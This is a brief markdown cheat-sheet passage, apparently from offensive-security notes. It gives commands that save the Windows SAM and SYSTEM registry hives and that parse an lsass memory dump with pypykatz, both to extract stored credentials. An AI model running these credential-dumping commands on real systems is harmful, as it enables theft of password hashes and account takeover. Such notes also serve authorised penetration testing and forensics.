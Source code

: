 # Windows

- Dump SAM/SYSTEM (local)

```
reg save HKLM\\SAM c:\\temp\\sam
reg save HKLM\\SYSTEM c:\\temp\\system

```

- Offline analysis of lsass dump using pypykatz

```
pypykatz lsa minidump lsass.dmp

```